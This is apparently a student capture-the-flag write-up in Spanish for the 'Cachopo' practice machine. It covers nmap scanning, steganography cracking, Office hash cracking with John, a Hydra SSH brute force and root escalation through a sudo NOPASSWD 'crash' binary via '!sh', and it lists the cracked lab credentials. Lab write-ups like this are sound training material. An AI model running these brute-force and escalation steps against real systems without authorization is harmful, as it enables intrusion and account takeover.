# TALLER CACHOPO
# CC DIEGO CABUYA - MY YERSON TORRES


## Fase 1: Reconocimiento de red

En esta fase se realiza la verificación inicial de conectividad y la detección de puertos abiertos en la máquina objetivo, empleando herramientas esenciales de red.

---

### 1.1 Verificación de conectividad con `ping`

Se utiliza la herramienta `ping` para comprobar si la máquina responde a paquetes ICMP. Esto permite confirmar que el host está activo y accesible desde nuestra máquina atacante.

#### Comando utilizado:

```bash
ping 192.168.129.207
```

#### Desglose del comando:

| Componente        | Descripción                                                                 |
|-------------------|-----------------------------------------------------------------------------|
| `ping`            | Herramienta para verificar conectividad mediante envío de paquetes ICMP.    |
| `192.168.129.207` | Dirección IP del host objetivo.                                              |

**Resultado**: la máquina respondió correctamente, confirmando que está activa en la red.



---

### 1.2 Escaneo de puertos con `nmap`

Una vez confirmada la conectividad, se realiza un escaneo completo de puertos TCP con `nmap` para identificar los servicios disponibles. Se utiliza una configuración agresiva para asegurar velocidad y profundidad en el análisis.

#### Comando utilizado:

```bash
sudo nmap -sSCV -p- -n -Pn --min-rate 5000 192.168.129.207
```

#### Desglose del comando:

| Componente            | Descripción                                                                 |
|------------------------|------------------------------------------------------------------------------|
| `sudo`                | Requiere permisos administrativos para escaneo completo.                    |
| `nmap`                | Herramienta de escaneo de redes.                                            |
| `-sS`                 | Realiza un escaneo TCP SYN (rápido y sigiloso).                             |
| `-sC`                 | Ejecuta los scripts por defecto de NSE (Nmap Scripting Engine).             |
| `-sV`                 | Detecta las versiones de los servicios encontrados.                         |
| `-p-`                 | Escanea todos los puertos TCP (1 al 65535).                                 |
| `-n`                  | Evita la resolución DNS.                                                    |
| `-Pn`                 | Omite la detección de host; se asume que está activo.                       |
| `--min-rate 5000`     | Fuerza una tasa mínima de 5000 paquetes por segundo para acelerar el escaneo. |
| `192.168.129.207`     | Dirección IP del objetivo.                                                  |

**Resultado del escaneo**:

- Puerto **22/tcp** Servicio SSH activo (`tcpwrapped`)
- Puerto **80/tcp** Servicio HTTP activo (`tcpwrapped`)

Esto indica que ambos servicios están disponibles pero protegidos, probablemente detrás de un wrapper de seguridad.



## Fase 2: Enumeración del servicio web

En esta fase se analizan los recursos visibles y ocultos en el servidor web expuesto por la máquina, con el objetivo de recolectar información útil para avanzar hacia una posible intrusión.

---

### 2.1 Exploración del sitio web principal

Se accede al servicio HTTP desde el navegador utilizando la dirección del host objetivo. El sitio presenta una imagen de un plato de comida, sin vínculos ni formularios visibles que puedan explotarse directamente.

#### URL visitada:

```
http://cachopo.thl
```

**Resultado**: el sitio carga correctamente una imagen estética, lo cual sugiere la posibilidad de que se haya ocultado información dentro del archivo mostrado.


---

### 2.2 Esteganografía con StegCracker

Se sospecha que la imagen descargada contiene información oculta mediante esteganografía. Se utiliza la herramienta `stegcracker` junto con la lista de contraseñas `rockyou.txt` para intentar romper la clave.

#### Comando utilizado:

```bash
stegcracker cachopo.jpg /usr/share/wordlists/rockyou.txt
```

#### Desglose del comando:

| Componente                          | Descripción                                                                 |
|-------------------------------------|------------------------------------------------------------------------------|
| `stegcracker`                       | Herramienta para romper contraseñas de archivos con esteganografía.         |
| `cachopo.jpg`                       | Imagen sospechosa que podría contener información oculta.                   |
| `/usr/share/wordlists/rockyou.txt` | Lista de contraseñas usada para ataque de diccionario.                      |

**Resultado**: contraseña descubierta `doggies`.



---

### 2.3 Extracción con Steghide

Con la contraseña obtenida (`doggies`), se utiliza `steghide` para extraer los datos ocultos del archivo de imagen.

#### Comando utilizado:

```bash
steghide extract -sf cachopo.jpg
```

#### Desglose del comando:

| Componente        | Descripción                                                              |
|-------------------|---------------------------------------------------------------------------|
| `steghide`        | Herramienta para ocultar o extraer datos de archivos multimedia.         |
| `extract`         | Indica que se realizará una extracción.                                  |
| `-sf cachopo.jpg` | Especifica el archivo fuente del cual extraer la informaci贸n oculta.     |

**Resultado**: se extrajo el archivo `directorio.txt`.



---

### 2.4 Visualización del archivo extraído

Se utiliza el comando `cat` para visualizar el contenido del archivo `directorio.txt`, lo que permite identificar un nuevo recurso en el servidor web.

#### Comando utilizado:

```bash
cat directorio.txt
```

#### Desglose del comando:

| Componente        | Descripción                                         |
|-------------------|-----------------------------------------------------|
| `cat`             | Comando para visualizar el contenido de un archivo. |
| `directorio.txt`  | Archivo extraído de la imagen mediante Steghide.    |

**Resultado**: el archivo contiene el texto `el directorio es mycachopo`.



---

### 2.5 Acceso al directorio oculto

Se navega al directorio `/mycachopo` en el servidor web, revelando un nuevo archivo llamado `Cocineros`.

#### URL visitada:

```
http://cachopo.thl/mycachopo/
```

**Resultado**: se accede correctamente al directorio y se identifica un archivo descargable.



## 🔐 Fase 3: Recuperación de contraseñas y credenciales

En esta fase se trabaja con el archivo descargado del directorio `/mycachopo/` llamado `Cocineros`, el cual contiene información ofuscada que puede ser clave para el acceso al sistema.

---

### 3.1 Extracción del hash desde el archivo Cocineros

Antes de utilizar herramientas de crackeo, es necesario extraer el hash del archivo `Cocineros`. Se emplea un comando que permite derivar el hash de Office y guardarlo en un archivo de texto.

#### Comando utilizado:

```bash
office2john.py Cocineros > hash.txt
```

#### Desglose del comando:

| Componente         | Descripción                                                                 |
|--------------------|------------------------------------------------------------------------------|
| `office2john.py`   | Script incluido con John the Ripper para convertir documentos de Office en hashes crackeables. |
| `Cocineros`        | Archivo sospechoso que contiene la contraseña ofuscada.                     |
| `>`                | Redirecciona la salida al archivo indicado.                                 |
| `hash.txt`         | Archivo de salida que contiene el hash extraído listo para ser procesado.   |

✅ **Resultado**: se genera correctamente el archivo `hash.txt` con el hash compatible.

---

### 3.2 Crackeo de hash con John the Ripper

Con el hash ya generado, se utiliza `john` con la lista `rockyou.txt` para intentar descubrir la contraseña.

#### Comando utilizado:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

#### Desglose del comando:

| Componente                            | Descripción                                                                 |
|---------------------------------------|------------------------------------------------------------------------------|
| `john`                                | Herramienta para romper hashes de contraseñas.                              |
| `--wordlist=/usr/share/wordlists/rockyou.txt` | Especifica el diccionario de palabras a utilizar en el ataque.     |
| `hash.txt`                            | Archivo que contiene el hash a romper.                                      |

---

### 3.3 Confirmación del usuario y contraseña asociado

Al observar el archivo `Cocineros`, se identifica el nombre del usuario asociado y su contraseña.

✅ **Resultado**: se confirma el nombre del usuario asociado `Cocineros`.

✅ **Resultado**: contraseña descubierta — `horse1`.




## Fase 4: Ataque de fuerza bruta SSH

Una vez obtenidas las credenciales del usuario `cocineros`, se procede a descubrir si alguno de los servicios accesibles (como SSH) es vulnerable mediante un ataque de fuerza bruta con la herramienta `hydra`.

---
### 4.1 Verificación del archivo con Libre Office

Se realiza la apertura del archivo `cocineros`utilizando la contraseña encontrada (`horse1`) y se encuentran tres nombre que se consideran nombres de usuario.



### 4.2 Ataque de diccionario con Hydra

Se utiliza `hydra` para probar múltiples combinaciones de contraseñas contra el servicio SSH del objetivo. Se emplea el diccionario `rockyou.txt` con cada uno de los nombres de usuario identificados en el paso anterior, y se encuentra para el usuario `carlos` su contraseña respectiva mediante fuerza.

#### Comando utilizado:

```bash
hydra -l carlos -P /usr/share/wordlists/rockyou.txt ssh://192.168.8.76 -t 4
```

#### Desglose del comando:

| Componente                              | Descripción                                                                 |
|-----------------------------------------|------------------------------------------------------------------------------|
| `hydra`                                 | Herramienta para realizar ataques de fuerza bruta contra servicios.         |
| `-l carlos`                             | Especifica el nombre del usuario objetivo (`carlos`).                       |
| `-P /usr/share/wordlists/rockyou.txt`   | Indica el archivo que contiene la lista de contraseñas a probar.           |
| `ssh://192.168.8.76`                    | Define el protocolo (`ssh`) y la dirección IP del objetivo.                 |
| `-t 4`                                  | Número de tareas (hilos) paralelos para acelerar el proceso.                |

✅ **Resultado**: Credenciales válidas encontradas:

- **Usuario**: carlos
- **Contraseña**: bowwow



## Fase 5: Acceso al sistema y escalada de privilegios

Con las credenciales válidas descubiertas en la fase anterior, se accede al sistema mediante SSH. Posteriormente, se realiza un análisis de privilegios y se identifica una vía para obtener acceso como usuario root.

---

### 5.1 Acceso al sistema vía SSH

Se establece una conexión remota al sistema utilizando el usuario `carlos` y la contraseña `bowwow`, previamente descubiertos.

#### Comando utilizado:

```bash
ssh carlos@192.168.8.76
```

#### Desglose del comando:

| Componente            | Descripción                                                       |
|-----------------------|--------------------------------------------------------------------|
| `ssh`                 | Herramienta para conexión remota segura mediante el protocolo SSH. |
| `carlos@192.168.8.76` | Formato usuario@IP para conectar al host remoto.                   |

✅ **Resultado**: Acceso exitoso como el usuario `carlos`.



---

### 5.2 Verificación de privilegios con `sudo -l`

Se consulta si el usuario actual (`carlos`) tiene permisos para ejecutar comandos como superusuario sin contraseña.

#### Comando utilizado:

```bash
sudo -l
```

#### Desglose del comando:

| Componente  | Descripción                                                             |
|-------------|--------------------------------------------------------------------------|
| `sudo`      | Permite ejecutar comandos con privilegios de superusuario.              |
| `-l`        | Lista los comandos que el usuario actual puede ejecutar con `sudo`.     |

✅ **Resultado**: Se detecta que `carlos` puede ejecutar `/usr/bin/crash` como root sin necesidad de contraseña.



---

### 5.3 Exploración del binario crash

Se revisa el comportamiento del binario `crash`, el cual permite abrir una shell si se usa de forma interactiva. Al no recibir parámetros, acepta comandos internos usando `!`.

#### Comando utilizado:

```bash
sudo crash -h
```

✅ **Resultado**: Al ejecutar se edita el archivo, incluyendole `!sh`, de esta manera, desde dentro del programa se obtiene una shell como usuario root.



---

### 5.4 Confirmación de privilegios root

Una vez dentro de la shell obtenida, se verifica el usuario efectivo del sistema con el comando `whoami`.

#### Comando utilizado:

```bash
whoami
```

✅ **Resultado**: `root`, confirmando el acceso completo al sistema.



## Conclusión

La resolución de la máquina **CACHOPO** demostró un flujo de explotación encadenado que incluyó reconocimiento activo, análisis de archivos con esteganografía, crackeo de contraseñas, fuerza bruta sobre servicios y escalada de privilegios mediante binarios con permisos `NOPASSWD`.

Este tipo de máquina es ideal para reforzar habilidades en:

- Reconocimiento y enumeración.
- Esteganografía y recuperación de datos ocultos.
- Análisis de contraseñas (Office + John).
- Ataques de fuerza bruta (Hydra).
- Identificación y explotación de binarios con permisos elevados.

---

## Resumen de credenciales obtenidas

| Servicio | Usuario    | Contraseña |
|----------|------------|------------|
| SSH      | carlos     | bowwow     |
| Archivo Office | cocineros | horse1     |
| Steganografía | -          | doggies    |

---

## Herramientas utilizadas

| Herramienta      | Propósito                                                  |
|------------------|------------------------------------------------------------|
| `ping`           | Verificar conectividad con la máquina objetivo.           |
| `nmap`           | Escaneo de puertos y detección de servicios.              |
| `stegcracker`    | Ataque de diccionario sobre archivos con esteganografía. |
| `steghide`       | Extracción de información oculta en imágenes.             |
| `office2john.py` | Conversión de documentos Office a hash para John.         |
| `john`           | Crackeo de hashes con diccionario.                        |
| `hydra`          | Ataques de fuerza bruta sobre servicios SSH.              |
| `ssh`            | Acceso remoto al sistema.                                 |
| `sudo -l`        | Revisión de permisos sudo del usuario.                    |
| `crash`          | Binario con permisos root explotado para obtener shell.   |
